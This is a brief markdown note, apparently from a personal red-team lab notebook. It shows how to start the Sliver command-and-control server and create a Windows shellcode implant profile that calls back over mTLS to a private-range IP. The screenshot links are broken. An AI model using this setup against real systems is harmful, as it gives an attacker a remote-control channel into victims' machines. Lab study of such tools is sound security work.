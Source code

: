 # Sliver

##### Start the Server
```
sliver-server
```
![](../../zzAttachments/Pasted%20image%2020250903160959.png)

###### Create a Profile
```
profiles new --mtls 192.168.56.230 --format shellcode sliver-win-shellcode
```
![](../../zzAttachments/Pasted%20image%2020250903161018.png)

